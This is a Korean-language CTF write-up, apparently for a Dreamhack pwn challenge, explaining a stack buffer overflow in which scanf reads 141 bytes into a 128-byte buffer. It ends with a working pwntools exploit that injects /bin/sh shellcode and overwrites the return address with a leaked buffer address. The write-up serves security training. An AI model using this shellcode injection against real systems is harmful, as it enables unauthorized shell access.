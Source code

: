 buf의 크기는 0x80로 **128byte**이지만, `scanf("%141s", buf);`로 총 **141byte**를 입력받기에 버퍼 오버플로우(BOF)가 발생할 수 있다.

해당 함수에서는 `system()` 관련된 `get_shell()` 함수가 없기에 ShellCode를 대입하는 것으로 문제 풀이가 가능하다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188444248-fa2cb3a4-581c-4699-acdc-a640f7ddc7f6.jpg" width = 500>
</p>

* `ESP`에서 0xffffff80만큼 **add** 즉, [ebp-0x80]에 esp가 위치하게 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188444849-0b0fc13a-4059-43b2-a125-0dea984dbbf6.jpg" width = 380>
</p>

* [ebp-0x80]를 통해 `scanf`를 진행하므로 결국 Buf는 128byte를 차지하며 141byte까지 입력이 가능하다. 이로써 BOF 풀이가 가능하다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188460919-def60535-b780-4692-a0d5-296c241a0439.jpg" width = 380>
</p>

<p align="center"><b>[그림] Stack Memory</b></p>

다운로드 파일을 실행해보면 Buf의 주소가 나오는데 아래처럼 계속 바뀌는 것을 알 수 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188448315-495dfacc-f2e6-4c30-992f-2e394583a5e2.jpg" width = 380>
</p>

그렇다면, 출력해주는 buf의 주소를 RET에 넣는다면 Buf에 넣은 ShellCode가 실행 될 것이다.

```python
from pwn import *

p = remote('host3.dreamhack.games', YOUR PORT) 
context(arch = 'i386', os='linux')

payload = b''
p.recvuntil('buf = (')
buf = int(p.recv(10), 16) # buf 값
p.recvuntil('\n')
#shellcode = asm(shellcraft.i386.linux.sh())
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x05\x04\x06\xcd\x80"
sfp = b'S' * 4

payload += shellcode.ljust(128, b'\x90')
payload += sfp
payload += p32(buf)

p.sendline(payload)
p.interactive()
```

